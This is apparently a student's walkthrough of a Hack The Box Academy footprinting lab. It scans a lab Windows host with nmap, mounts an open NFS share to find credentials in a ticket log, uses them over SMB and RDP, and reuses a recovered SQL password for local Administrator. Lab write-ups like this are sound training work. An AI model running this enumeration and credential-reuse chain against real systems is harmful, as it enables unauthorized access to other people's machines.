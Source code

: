 # Footprinting Lab - Medium  

[Footprinting Lab - Medium](https://academy.hackthebox.com/module/112/section/1079)  

>This server is a server that everyone on the internal network has access to. 
>In discussion with client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.
>Our customer agreed to this and added this server to our scope.
>The goal is to find out as much information as possible about this server and find ways to use it against the server itself.
>Obtain a user named `HTB` credentials as proof.  

## Enumeration  

>NMAP Scans  

```
sudo nmap 10.129.102.65
```  

>NMAP output:  

```
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
```  

>NMAP discovered ports scan full scripts, OS and service versions enumeration.  

```
sudo nmap -p 111,135,139,445,2049,3389 -sCV -A -O 10.129.102.65
```  

>NMAP Detailed output:  

```
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-16T11:54:41+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-16T11:54:32+00:00
| ssl-cert: Subject: commonName=WINMEDIUM
| Not valid before: 2023-07-15T11:48:12
|_Not valid after:  2024-01-14T11:48:12
```  

### NFS  

>Network File System [NFS](https://academy.hackthebox.com/module/112/section/1068) is a network file system developed by Sun Microsystems and has the same purpose as SMB. Its purpose is to access file systems over a network.  

>Check with public readable NFS share volumes.  

```
rpcinfo -p 10.129.102.65

showmount -a 10.129.102.65

showmount -e 10.129.102.65
```  

>Discovered the NFS volume, `/TechSupport`, with comment `everyone`.  
>Mounting NFS Share.  

```
mkdir nfs-folder
sudo mount -t nfs 10.129.102.65:/TechSupport ./nfs-folder/ -o nolock

sudo su

cd nfs-folder
tree .

ls -al
```  

>Discover one of the ticket log files are larger than the others in the mounted `nfs-folder`.

![nfs-Footprinting-Lab-medium](/images/nfs-Footprinting-Lab-medium.png)  

>Unmount the NFS share to kali.

```
sudo umount ./nfs-folder
```  

## Foothold  

>Testing the credentials from the ticket log file for user `alex` with the password `lol123!mD` against the other services.  

### SMB  

>Server Message Block [SMB](https://academy.hackthebox.com/module/112/section/1067) is a client-server protocol that regulates access to files and entire directories.  

>CrackMapExec SMB  

```
crackmapexec smb 10.129.102.65 --shares -u '' -p ''

crackmapexec smb 10.129.102.65 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'
```  

>Identified share `devshare` with READ and WRITE permissions for the user `alex`.  

```
smbclient -U alex \\\\10.129.102.65\\devshare
get important.txt
exit
```

>The content of the file `important.txt` contained login credentials for the accounts `sa`.

```
sa:87N1ns@slls83
```  

![smb-Footprinting-Lab-medium](/images/smb-Footprinting-Lab-medium.png)  

### Remote Desktop 

>RDP - Remote Desktop

```
sudo xfreerdp /v:10.129.102.65 /u:alex /p:'lol123!mD' /cert:ignore /d:WINMEDIUM /dynamic-resolution
```  

>Test for password reuse on all users local to the remote target server.
>Using the password `87N1ns@slls83` again with the local `Administrator`, allows to run the Microsoft SQL Server Management Studio application as the local administrator.  

![sql-studio-Footprinting-Lab-medium](/images/sql-studio-Footprinting-Lab-medium.png)  











